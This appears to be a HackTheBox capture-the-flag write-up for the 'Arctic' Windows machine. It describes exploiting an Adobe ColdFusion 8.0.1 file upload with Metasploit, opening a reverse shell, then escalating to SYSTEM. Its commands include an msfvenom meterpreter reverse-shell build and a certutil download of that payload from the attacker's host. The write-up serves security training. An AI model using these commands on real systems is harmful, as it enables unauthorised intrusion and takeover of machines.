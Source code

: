 +++
title = "HackTheBox Writeup: Arctic"
date = "2019-08-22T01:01:33+02:00"
tags = [
  "hackthebox",
  "writeup",
  "ctf",
]
highlight = "true"
toc = "true"
showdate = "true"
+++

Arctic is an easy rated Windows hacking challenge from HackTheBox, here is a writeup/walkthrough to go from boot to root. This box is all about publicly available exploits and known unpatched vulnerabilities.

![1](/images/arctic-writeup/1.png)

---

## Enumeration

Let's start with a full port scan using nmap, the network mapper, using the options to enumerate service versions (-sV) and execute safe scripts (-sC):

![2](/images/arctic-writeup/2.png)

We only found two Windows Remote Procedure Call ports and a more unusual one, port 8500 with an unknown service running behind it. Let's connect to it from a web browser to see if we can see anything:

![3](/images/arctic-writeup/3.png)

As it turns out ti's just a web server, one that takes a long time to respond to each request so that with the unusual port number is probably what confused nmap. We are presented two different folders, opening CFIDE reveals something interesting, what seems to be a web application with an administration panel:

![4](/images/arctic-writeup/4.png)

Opening the administrator folder leads us to the login page of an Adove ColdFusion installation:

![5](/images/arctic-writeup/5.png)

One of the first things to do when a web app is found is to look for known vulnerabilities on exploit databases, in my case I'm going to search straight from Metasploit's modules, and in fact we find an interesting arbitrary file upload + code execution exploit for ColdFusion 8.0.1, the version that seems to be running on Arctic judging from the login page:

![6](/images/arctic-writeup/6.png)

---

## Exploitation: getting user.txt

All we need to do to launch this exploit is changing the port number and IP address of our target, however it doesn't seem to work as the exploit fails immediately, probably because of the long response times of the web server:

![7](/images/arctic-writeup/7.png)

In order to fix this we can set up Burp as a proxy to intercept the request responsible for the exploit and see what it does:

![7](/images/arctic-writeup/8.png)

By setting up Burp like this we are telling it to listen to localhost on port 9999 for connections, intercept the requests it receives, and redirect them to Arctic. This way we can tell the exploit to send the exploit to 127.0.0.1:9999 and Burp will intercept it to let us see how it works, in facts after changing the exploit target and re-launching it we receive an incoming connection containing the exploit itself:

![7](/images/arctic-writeup/9.png)

The exploit continues but what is important to note are the parts I enclosed in red rectangles: the first is what is supposed to be the file uploaded on the server. Let's scroll down the end of the exploit though to see where it actually creates a connection, because the payload used in this exploit, according to the settings on Metasploit, is a generic reverse shell:

![7](/images/arctic-writeup/10.png)

From this we can see that Metasploit already set the correct interface as the IP address to connect the box to, and it will connect to us on port 4444 so let's start a netcat listener on our attacking box to receive the connection:

```shell-session
$ nc -lvp 4444
```

Then we can forward the request on Burp, and load the URL of the uploaded file, which will be located in /userfiles/file/VTBMWLQ.jsp:

![7](/images/arctic-writeup/11.png)

We can know where the file was uploaded because the /userfiles directory has been created by the web application when we uploaded the file and we can see it by connecting back to the root of the web server:

![7](/images/arctic-writeup/12.png)

Anyway we are the user "tolis" on the box, this means we can grab user.txt:

![7](/images/arctic-writeup/13.png)

---

## Dropping meterpreter

Now we have to think about becoming administrators on the box. First things first I run the "systeminfo" command to see what version of WIndows we are running and whether it's a 32 or 64 bits OS:

![7](/images/arctic-writeup/14.png)

So we are dealing with Windows Server 2008 R2 Standard, 64-bits. With this info we can pass from a normal cmd shell to a meterpreter shell to have access to all its useful modules. I'll be doing it by dropping an executable on the system (I tried the TrustedSec Unicorn method but for some reason it wouldn't work on this box even though it's supposed to? I dunno) crafted from msfvenom:

```shell-sessuib
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=9090 -f exe > arctic.exe
```

Then in order to drop it on the box we must start a local webserver on our local machine, I like to do it with PHP:

```shell-session
$ php -S 0.0.0.0:8181 -t .
```

Now we can download the file from our machine using certutil.exe with a command like this:

```shell-session
$ certutil.exe -urlcache -split -f "http://10.10.14.29:9090/arctic.exe" arctic.exe
```

This will save the executable in our current directory so we can run it and enjoy our meterpreter shell after starting a listener on Metasploit:

```shell-session
$ arctic.exe
```

![7](/images/arctic-writeup/15.png)

![7](/images/arctic-writeup/16.png)

For some reason Metasploit failed to load its library containing all the commands so it would give me errors no matter what I tried to do, so I had to load stdapi manually:

```shell-session
meterpreter> load stdapi
```

Then it started to work normally. By running "sysinfo" we can view some information about the system and our meterpreter session, one of these tells us we are actually running a x86 version of meterpreter on a 64 bits OS so this might give us inaccurate results when we run post exploitation modules:

![7](/images/arctic-writeup/17.png)

This can be fixed by listing the currently running processes on the box with the "ps" command, choosing a x64 process ID (PID) and using the "migrate" command to migrate our session on to that process, turning it into a 64 bits meterpreter session. In my case I chose PID number 3380, belonging to conhost.exe:

![7](/images/arctic-writeup/18.png)

And the process migration is successful as we can see from the output of sysinfo:

![7](/images/arctic-writeup/19.png)

---

## Privilege escalation to SYSTEM

Now we can finally use a very useful post exploitation module that looks for missing hot fixes making the system vulnerable to local privilege escalation exploits, the module is called post/multi/recon/local_exploit_suggester and we can use it by pressing Ctrl+Z to put our meterpreter session in the background, typing the following command on the msf console:

```shell-session
msf> use post/multi/recon/local_exploit_suggester
```

And then specify on what session to run the module:

```shell-session
    msf> set session 1
```

And launch it:

![7](/images/arctic-writeup/20.png)

We find out that the box appears to be vulnerable to the schelevator exploit, a fairly common and reliable one, so we are going to use that one. Once again all we need is a "use" command to specify the exploit and a "set" to tell Metasploit on what session to run it, the exploit will create a new listener and session for us once it's done running, and we will have complete control over the box because we'll be SYSTEM:

![7](/images/arctic-writeup/21.png)

So we can grab the root flag and complete our mission:

![7](/images/arctic-writeup/22.png)

